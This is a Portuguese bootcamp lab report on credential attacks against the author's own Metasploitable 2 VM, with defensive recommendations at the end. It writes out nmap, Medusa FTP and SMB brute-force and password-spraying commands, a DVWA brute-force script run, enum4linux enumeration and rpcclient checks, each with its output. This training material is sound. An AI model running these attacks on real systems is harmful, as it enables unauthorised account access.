










# Relatório de resultados do laboratório

**Autor:** Anderson Junior  
**Bootcamp:** Santander - Cibersegurança do Zero à Prática — DIO  
**Data nas capturas dos testes:** 23/11/2026; relógio e fuso da VM não confirmados.  
**Organização:** 25/11/2026.

FTP, DVWA e SMB foram executados nas VMs do participante. Os resultados abaixo foram transcritos das capturas enviadas durante o estudo; os testes não foram executados no ambiente do assistente. Dez imagens de fotos.zip estão incorporadas sem alteração de conteúdo. Os logs completos não foram recebidos. Os prints do DVWA, vistos anteriormente na conversa, não constam do ZIP.

A [seleção das evidências](05-evidencias.md) registra arquivos incluídos e descartados. O [manifesto](../images/manifesto.csv) relaciona nomes de origem e hashes. Blocos de saída são transcrições, não arquivos de log originais. A documentação foi recomposta após a recriação do ambiente de montagem; os scripts publicados foram reconstituídos e verificados localmente, sem repetição dos testes nas VMs.

## 1. Escopo e configuração

| Item | Valor observado |
| --- | --- |
| Hospedeiro | Windows 11, Intel Core i5-12400 e cerca de 16 GB de RAM, conforme registros anteriores. |
| VirtualBox | 7.0.2 nos registros de falha; versão após o sucesso final não confirmada. |
| Kali e ferramentas | Janela identifica kali-linux-2026.3-virtualbox-amd64; Medusa v2.3 e Nmap 7.99. |
| Metasploitable 2 | Disco Metasploitable.vmdk; console com Linux 2.6.24-16-server, i686. Origem do download não confirmada. |
| Configuração do alvo | VM meta, 2048 MB, disco de 8 GB, perfil Ubuntu (64-bit) e Host-only. O perfil não altera a arquitetura i686 observada no console. |
| DVWA | v1.0.7; nível inicialmente high e depois low; PHPIDS disabled, conforme capturas anteriores. |
| Rede | Interfaces eth0 na sub-rede 192.168.56.0/24; adaptador Host-only mostrado nas configurações. |
| IPs | Kali 192.168.56.101/24; Metasploitable 192.168.56.103/24. |
| Snapshot | Criação e utilização não confirmadas. |
| Escopo | VMs do participante, com testes dirigidos ao alvo de laboratório 192.168.56.103. |

**Evidência 1 — Configuração própria do alvo.** Foi selecionada a captura com fundo claro; as telas de vídeo não foram usadas como evidência da execução.



No Metasploitable, ifconfig mostrou eth0 com 192.168.56.103 e máscara 255.255.255.0. Os comandos incorretos anteriores permanecem visíveis na imagem.

**Evidência 2 — Endereço do alvo.**



No Kali, ip -br a mostrou eth0 UP com 192.168.56.101/24. O comando abaixo retornou três pacotes recebidos e 0% de perda:

```bash
ping -c 3 192.168.56.103
```

O ping anterior executado no Metasploitable para si mesmo não foi considerado prova de comunicação entre VMs.

**Evidência 3 — Comunicação do Kali com o alvo.**



### Reconhecimento dos serviços

Comando mostrado na captura:

```bash
nmap -sT -sV -p 21,80,139,445 192.168.56.103 -oN ~/dio-kali-medusa/resultados/01-servicos.txt
```

| Porta | Estado | Identificação do Nmap |
| --- | --- | --- |
| 21/tcp | open | ftp — vsftpd 2.3.4 |
| 80/tcp | open | http — Apache httpd 2.2.8 ((Ubuntu) DAV/2) |
| 139/tcp | open | netbios-ssn — Samba smbd 3.X–4.X, WORKGROUP |
| 445/tcp | open | netbios-ssn — Samba smbd 3.X–4.X, WORKGROUP |

O intervalo informado para Samba não estabelece a versão exata. Houve aviso de DNS sobre /etc/resolv.conf, mas a varredura por IP terminou em 11,53 segundos.

**Evidência 4 — Serviços identificados.**



### Dificuldades de inicialização

Foram observados kernel panic em mwait_idle_with_hints e erro de temporizador IO-APIC. Houve uma inicialização bem-sucedida após testar noapic, mas outras tentativas falharam. Também foram orientados idle=poll e atualização do VirtualBox. Os registros anteriores ainda identificavam VirtualBox 7.0.2 e Hyper-V/NEM. O console posterior confirma login no Metasploitable; a causa exata da resolução e a versão final não foram confirmadas. Não se atribui o sucesso a um único ajuste.

**Registro complementar — Kernel panic durante a preparação.**



## 2. FTP: dicionário e confirmação manual

**Hipótese:** uma credencial padrão presente na lista pode permitir autenticação. O usuário foi msfadmin; as três senhas foram 123456, admin e msfadmin.

Preparação e comando mostrados:

```bash
mkdir -p ~/dio-kali-medusa/wordlists
printf '%s\n' '123456' 'admin' 'msfadmin' > ~/dio-kali-medusa/wordlists/senhas-ftp.txt
medusa -h 192.168.56.103 -u msfadmin -P ~/dio-kali-medusa/wordlists/senhas-ftp.txt -M ftp -t 1 -f 2>&1 | tee ~/dio-kali-medusa/resultados/02-ftp.log
```

Foram exibidos três ACCOUNT CHECK entre 12:15:15 e 12:15:18 no relógio da VM. O Nmap anterior indicou -0500; esse relógio não é tratado como horário local confirmado do participante.

Trecho transcrito:

```text
ACCOUNT FOUND: [ftp] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS]
```

**Evidência 5 — Medusa e ACCOUNT FOUND no FTP.**



Na confirmação manual, o cliente FTP mostrou:

```text
$ ftp 192.168.56.103
Connected to 192.168.56.103.
220 (vsFTPd 2.3.4)
Name (192.168.56.103:kali): msfadmin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /home/msfadmin
ftp> quit
221 Goodbye.
```

**Evidência 6 — Autenticação e consulta do diretório.**



**Resultado: acesso FTP confirmado.** A indicação da ferramenta foi complementada por login manual e pwd. Não foram mostradas transferências, alterações de arquivos ou operações administrativas. Nenhuma mitigação foi aplicada ou retestada.

## 3. DVWA Low: formulário e automação

> **Limite documental:** os prints desta etapa foram observados anteriormente na conversa, mas não estão entre os 19 PNGs de fotos.zip. Esta seção preserva as transcrições; não há imagens substitutas.

**Hipótese:** o exercício Brute Force no nível Low aceita tentativas sem controle suficiente. O caminho foi http://192.168.56.103/dvwa/vulnerabilities/brute/ e o usuário admin. A página inicialmente estava em high; os resultados abaixo foram observados após a mudança para low.

Primeiro foram realizadas duas tentativas manuais no Firefox, dentro de uma sessão autenticada no DVWA:

| Credencial de laboratório | Mensagem observada |
| --- | --- |
| admin / 123456 | Username and/or password incorrect. |
| admin / password | Welcome to the password protected area admin |

A barra de endereço mostrou parâmetros GET username, password e Login. Posteriormente, foi executada a automação com a lista 123456, admin e password:

```bash
python3 ~/dio-kali-medusa/scripts/dvwa_guiado.py 2>&1 | tee ~/dio-kali-medusa/resultados/02-dvwa.log
```

A primeira execução parou com `INCONCLUSIVO: Copie somente o valor de PHPSESSID.`. A validação do formato ocorria antes das requisições; esse erro não indica recusa de senha pelo DVWA. A segunda execução mostrou:

```text
Alvo: http://192.168.56.103/dvwa/vulnerabilities/brute/
Usuario: admin; candidatas: 3
Tentativa 1: FALHA
Tentativa 2: FALHA
Tentativa 3: SUCESSO
Senha da linha 3 aceita pelo modulo.
```

**Resultado: sucesso automatizado na terceira candidata, mesma credencial previamente confirmada manualmente.** A terceira linha preparada é password. A ordem foi validação manual e depois automação.

O valor do cookie não apareceu na captura e não foi recebido. O comando usa tee sem -a, portanto a segunda execução substituiu o log anterior; a imagem vista na conversa mostrava ambas. O arquivo bruto do log não foi recebido.

Os resultados se limitam a três candidatas, ao nível Low e ao exercício dentro de uma sessão já autenticada. Não comprovam comportamento sob grande volume ou proteção de outros níveis. Os scripts reconstituídos nesta publicação foram verificados apenas com respostas simuladas; os registros acima são os resultados históricos observados, não uma nova execução desses arquivos.

## 4. SMB: enumeração, spraying e identidade

**Hipótese:** a enumeração pode revelar contas e uma senha compartilhada pode ser aceita por uma delas. O comando orientado antes da captura foi:

```bash
enum4linux -U 192.168.56.103 2>&1 | tee ~/dio-kali-medusa/resultados/03-smb-enumeracao.log
```

A captura mostra o trecho final da saída, sem o comando inicial. Entre os usuários visíveis estavam:

```text
user:[msfadmin] rid:[0xbb8]
user:[service] rid:[0xbbc]
user:[ftp] rid:[0x4be]
enum4linux complete on Mon Nov 23 12:52:34 2026
```

Esses três nomes foram escolhidos para a wordlist. A lista parcial não estabelece o total de contas nem garante que todas tenham login SMB habilitado.

**Evidência 7 — Usuários enumerados.** Abra a imagem para visualizar o terminal em tamanho original.



A única senha testada foi msfadmin, para os três usuários. O comando observado foi:

```bash
medusa -h 192.168.56.103 \
  -U ~/dio-kali-medusa/wordlists/usuarios-smb.txt \
  -P ~/dio-kali-medusa/wordlists/spray-uma-senha.txt \
  -M smbnt -m GROUP:LOCAL -t 1 -T 1 \
  2>&1 | tee ~/dio-kali-medusa/resultados/04-smb-spray.log
```

O Medusa retornou um ACCOUNT CHECK para cada usuário e a linha:

```text
2026-11-23 12:56:32 ACCOUNT FOUND: [smbnt] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

Para service e ftp houve ACCOUNT CHECK sem indicação visível de sucesso. Os três registros exibem o mesmo segundo, o que não permite medir duração precisa nem concluir sobre limites de taxa. Não foram observadas novas rodadas.

**Evidência 8 — Spraying e primeira tentativa de confirmação.** A captura preserva ACCOUNT FOUND e, abaixo, um erro de outro comando, o rpcclient.



### Primeira consulta RPC

```bash
rpcclient -U msfadmin -c getusername 192.168.56.103 2>&1 | tee ~/dio-kali-medusa/resultados/05-smb-validacao.log
```

Saída transcrita:

```text
Password for [WORKGROUP\msfadmin]:
smb1_signing_good: BAD SIG: seq 1
Cannot connect to server. Error was NT_STATUS_ACCESS_DENIED
```

A consulta não retornou identidade. A saída indica falha na verificação da assinatura no fluxo SMB1, mas sozinha não confirma a senha digitada ou a causa exata. A hipótese de incompatibilidade foi investigada alterando apenas uma opção do cliente para a execução seguinte.

### Consulta com ajuste de compatibilidade

```bash
rpcclient -U msfadmin \
  --option='client ipc signing=disabled' \
  -c getusername 192.168.56.103 \
  2>&1 | tee ~/dio-kali-medusa/resultados/05b-smb-validacao.log
```

Após informar a senha, o servidor retornou:

```text
Password for [WORKGROUP\msfadmin]:
Account Name: msfadmin, Authority Name: VULNERABILITY
```

**Evidência 9 — Identidade confirmada pelo servidor.**



**Resultado: credencial indicada pelo Medusa e identidade msfadmin confirmada por consulta independente.** A resposta não é apenas o nome solicitado no comando ou uma listagem de compartilhamentos acessível a guest.

O nome VULNERABILITY não foi usado para inferir domínio Active Directory, versão ou privilégios administrativos. A expressão ADMIN$ do Medusa também não prova acesso root ou administração geral. A validação limitou-se à identidade, sem escrita ou administração de compartilhamentos.

A opção client ipc signing=disabled foi passada somente nessa execução; não houve edição global mostrada. Esse diagnóstico não é medida defensiva. Os nomes diferentes usados no tee preservam separadamente a primeira falha e a segunda consulta na VM; os arquivos de log não integram este pacote.

Referências: [client ipc signing](https://www.samba.org/samba/docs/current/man-html/smb.conf.5.html) e [opções do rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html).

## 5. Defesa e reteste

**Aplicação e reteste: não executados.**

| Controle recomendado | Motivo observado | Verificação futura |
| --- | --- | --- |
| Remover credenciais padrão e adotar senhas únicas | Senhas públicas de laboratório foram aceitas. | Senhas antigas falham e acesso legítimo continua possível. |
| Limitar tentativas, monitorar contas e usar MFA quando disponível | Listas pequenas identificaram credenciais. | Limites e eventos são medidos em teste controlado. |
| Restringir enumeração e portas SMB | enum4linux retornou nomes de usuários. | Consultas indevidas negadas, acessos necessários preservados. |
| Atualizar Samba, desativar SMB1 e manter assinatura compatível | Legado apresentou problema de assinatura RPC. | Clientes suportados funcionam e protocolos antigos são recusados. |
| Migrar FTP para SFTP/FTPS e restringir origens | Autenticação foi validada via FTP. | Transporte protegido e controles de autenticação mantidos. |

Uma extensão pode aplicar uma alteração por vez em cópia/snapshot e repetir a mesma lista pequena. A recusa de protocolo legado deve ser descrita como restrição de protocolo, não como prova de senha forte. Não foram medidos bloqueios, atrasos ou resistência a grande volume.

## 6. Aprendizados e limites

1. FTP e DVWA exemplificaram dicionário; SMB testou uma senha em três usuários realmente enumerados.
2. Sessão expirada, formato inválido de cookie, erro de rede e senha recusada precisam de classificações distintas.
3. O aviso de DNS não impediu a varredura por IP; o erro de assinatura RPC exigiu diagnóstico antes de confirmar a identidade.
4. A indicação da ferramenta foi complementada por confirmação independente em cada cenário observado.
5. Dez PNGs originais estão incluídos; prints do DVWA e logs brutos não foram recebidos. Fuso da VM, versão final do VirtualBox e snapshots não foram confirmados.
6. As defesas são recomendações. Nenhum comportamento esperado foi apresentado como reteste executado.

## 7. Conferência da entrega

- [x] Dez imagens originais selecionadas, renomeadas e acompanhadas de legendas.
- [x] Manifesto com nomes de origem, dimensões e SHA-256.
- [x] Observações, hipóteses e recomendações diferenciadas.
- [x] Ausência dos prints do DVWA e dos logs brutos declarada.
- [x] Scripts reconstituídos identificados separadamente dos resultados históricos.
- [ ] Revisão final do autor antes da entrega na DIO.
- [ ] Envio do endereço do repositório na plataforma DIO.
